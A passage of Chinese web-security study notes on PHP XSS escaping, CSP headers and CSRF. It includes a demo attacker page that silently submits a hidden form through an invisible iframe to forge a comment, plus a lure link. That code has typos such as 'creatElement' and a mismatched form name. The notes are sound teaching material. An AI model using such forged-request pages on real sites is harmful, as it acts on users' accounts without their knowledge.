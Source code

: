 - 转义 - 使用内置函数转义
    - strip_tags($content) 移除 html 标签，只留下内容
    - htmlspeicalchars($content, ENT_QUOTES) 只处理特殊字符，由于默认不转义 ' ，需要加上参数2 
- 白名单
    - 自带的 DOMDocument 类
- 第三方库
    - HTML Purifire
- CSP
    - header("Content-Security-Policy: script-src 'self'");

## 问题：

- 直播间不同接口转义的不一样吗？
- 我们的聊天转义了哪些？做了什么处理
- 前端处理了没？都是后端处理？

- Content-Security-Policy: frame-ancestors self *.56.com *.baidu.com

# 三、CSRF 攻击

> Cross Site Request Forgy 跨站请求伪造

白话理解：不同于 XSS 中的本网站运行非本网站的脚本，在这里是指其他的网站脚本对本网站产生了影响。其他网站在用户不知情的情况下，对本网站发出了某些请求。

## 3.1 引入

案例描述：
- 正常操作
    - 未登录情况下，匿名评论
    - 登录后保存了用户 cookie ，再次评论
- 异常操作
    - 用户打开一个第三方网站，该网站可以直接替用户添加评论

攻击实现：
- 第三方网站的脚本
```html
<!-- 如果是 post 请求 -->
<script>
    // 创建 frome 指向目标网站接口
    // 当表单指定 target 是一个 iframe 时，提交和跳转就在 iframe 操作，当前页面不跳转
    document.write(`
        <form 
            name="commentForm" 
            target="csrf"
            method="post"
            action="http://xxx/post/addComment"
        >
            <input name="postId" type="hidden" value="13">
            <textarea name="content">来自CSRF!</textarea>
        </form>
    `);

    var iframe = document.creatElement('iframe');
    iframe.name="csrf";
    iframe.style.display="none";
    document.body.appendChild(iframe);

    setTimeout(function(){
        document.querySelector('[name=contentForm]').submit();
    }, 1000);
</script>

<!-- 如果是 get 请求，更简单 -->
<a href="攻击链接">屠龙宝刀，点击就送</a>
```